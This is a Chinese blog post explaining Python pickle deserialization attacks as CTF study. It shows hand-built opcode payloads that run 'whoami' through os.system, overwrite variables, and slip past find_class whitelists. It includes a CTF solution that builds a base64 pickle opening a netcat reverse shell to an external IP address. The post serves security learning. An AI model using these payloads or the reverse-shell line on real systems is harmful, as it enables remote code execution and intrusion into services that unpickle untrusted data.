



基础知识
pickle是python下的用于序列化和反序列化的包
与json相比，pickle以二进制储存。json可以跨语言，pickle只适用于python。pickle能表示python几乎所有的类型(包括自定义类型)，json只能表示一部分内置类型而且不能表示自定义的类型。
pickle实际上可以看作一种独立的语言，通过对opcode的更改编写可以执行python代码、覆盖变量等操作。直接编写的opcode灵活性比使用pickle序列化生成的代码更高，有的代码不能通过pickle序列化得到（pickle解析能力大于pickle生成能力）。
可以被序列化的对象：pickle — Python 对象序列化 — Python 3.10.2 文档
在重写__reduce__方法的时候，返回的一定是一个元组(callable, ([para1,para2...])[,...])
pickle解析的过程：How pickle works in Python | Artem Golubin (rushter.com)
漏洞利用
方法
- 任意代码执行
- 变量覆盖(覆盖凭证绕过身份验证)
easyDemo
import pickle
class People(object):
def __init__(self, name):
self.name = name
def sayHello(self):
print("Hello ", self.name)
a = People("RoboTerh")
result = pickle.dumps(a)
print(result)
"""
ccopy_reg
_reconstructor
p0
(c__main__
People
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
S'name'
p6
S'RoboTerh'
p7
sb.
"""反序列化代码实例
import pickle
class People(object):
def __init__(self, name):
self.name = name
def sayHello(self):
print("Hello ", self.name)
a = People("RoboTerh")
result = pickle.dumps(a)
unser = pickle.loads(result)
unser.sayHello()
"""
('Hello ', 'RoboTerh')
"""但是如果去掉了People类之后在进行反序列化就会报错
import pickle
class People(object):
def __init__(self, name):
self.name = name
def sayHello(self):
print("Hello ", self.name)
a = People("RoboTerh")
result = pickle.dumps(a)
del People
unser = pickle.loads(result)
unser.sayHello()
"""
AttributeError: 'module' object has no attribute 'People'
"""commandExecuteDemo
import pickle
import os
class demo(object):
def __reduce__(self):
cmd = """dir"""
return (os.system, (cmd, )) #必须要返回一个元组
obj = demo()
result = pickle.dumps(obj)
#利用
pickle.loads(result)variableCoverageDemo
import pickle
key1 = b'123'
key2 = b'456'
class exp(object):
def __reduce__(self):
return (exec, ("key1=b'1'\nkey2=b'2'", ))
obj = exp()
print(key1, key2)
result = pickle.dumps(obj)
pickle.loads(result)
print(key1, key2)
"""
b'123' b'456'
b'1' b'2'
"""构造opcode
常见的opcode

其中TRUE可以用I表示：b'I01\n'; FALSE可以用I表示：b'I00\n'，其他的opcode可以在源代码中查看
全局变量覆盖
# main.py
import pickle
import secret
opcode = """c__main__
secret
(S'name'
S'1'
db."""
print("before name:", secret.name)
result = pickle.loads(opcode.encode())
print("result:", result)
print("after:", secret.name)
# secret.py
name = 'aaabbbccc'
# 结果
('before name:', 'aaabbbccc')
('result:', <module 'secret' from 'E:\my_vscode_python\webScript\secret.py'>)
('after:', '1')首先，通过 c 获取全局变量 secret ，然后建立一个字典，并使用 b 对secret进行属性设置，
函数执行
与函数执行相关：R i o
Rb'''cos system (S'whoami' tR.''' # t 为组合为元组 R 要求必须要是元组ib'''(S'whoami' ios system .''' # i 获取全局函数之后寻找栈上一个MARK为元组，以该元组为参数执行函数ob'''(cos system S'whoami' o.''' # o 寻找上一个MARK作为callable，后面的为参数
实例化对象
Rimport pickle class Person(object): def __init__(self, name, age): self.name = name self.age = age data = b"""c__main__ Person (S'RoboTerh' S'20' tR.""" obj = pickle.loads(data) print(obj.name, obj.age) # RoboTerh 20iimport pickle class Person(object): def __init__(self, name, age): self.name = name self.age = age data = b"""(S'RoboTerh' S'20' i__main__ Person .""" obj = pickle.loads(data) print(obj.name, obj.age) # RoboTerh 20oimport pickle class Person(object): def __init__(self, name, age): self.name = name self.age = age data = b"""(c__main__ Person S'RoboTerh' S'20' o.""" obj = pickle.loads(data) print(obj.name, obj.age) # RoboTerh 20
pker的使用
实践
pickle.Unpickler.find_class()的了解：
官方针对pickle的安全问题的建议是修改find_class()，引入白名单的方式来解决
调用find_class()的情况：
- 从opcode角度看，当出现
c、i、b'\x93'时，会调用，所以只要在这三个opcode直接引入模块时没有违反规则即可。 - 从python代码来看，
find_class()只会在解析opcode时调用一次，所以只要绕过opcode执行过程，find_class()就不会再调用，也就是说find_class()只需要过一次，通过之后再产生的函数在黑名单中也不会拦截，所以可以通过__import__绕过一些黑名单。
官方的例子：
import builtins
import io
import pickle
safe_builtins = {
'range',
'complex',
'set',
'frozenset',
'slice',
}
class RestrictedUnpickler(pickle.Unpickler):
def find_class(self, module, name):
# Only allow safe classes from builtins.
if module == "builtins" and name in safe_builtins:
return getattr(builtins, name)
# Forbid everything else.
raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
(module, name))
def restricted_loads(s):
"""Helper function analogous to pickle.loads()."""
return RestrictedUnpickler(io.BytesIO(s)).load()使用白名单限制了能够调用的模块：{'range','complex','set','frozenset','slice',}
在高校战役网络安全分享赛中的webtmp
class RestrictedUnpickler(pickle.Unpickler):
def find_class(self, module, name):
if module == '__main__': # 只允许__main__模块
return getattr(sys.modules['__main__'], name)
raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))看似只限制使用__main__模块，但是被引入主程序的模块都可以通过__main__调用修改，所以造成了变量覆盖
Code Breaking picklecode
cbuiltins
getattr
p0
(cbuiltins
dict
S'get'
tRp1
cbuiltins
globals
)Rp2
00g1
(g2
S'builtins'
tRp3
0g0
(g3
S'eval'
tR(S'__import__("os").system("whoami")'
tR.[watevrCTF-2019]Pickle Store
[复现](https://github.com/wat3vr/watevrCTF-2019/tree/master/challenges/web/pickle store)
抓包带有一个session，尝试base64解码，联系题目名称pickle。想到通过base64存储反序列化之后的字符串

利用__reduce__构造恶意pickle反序列化字符串
import pickle
import os
import base64
class Test(object):
def __reduce__(self):
return(eval, ("__import__('os').system('nc -e /bin/bash 120.24.207.121 8000')", ))
test = Test()
print(base64.b64encode(pickle.dumps(test)))
pickler同样可以构造：
参考
从picklecode中学习python反序列化 - l3m0n - 博客园 (cnblogs.com)
Code Breaking picklecode复现 - 先知社区 (aliyun.com)
pickle反序列化初探 - 先知社区 (aliyun.com)


- Post link: https://roboterh.github.io/2022/01/18/pickle%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.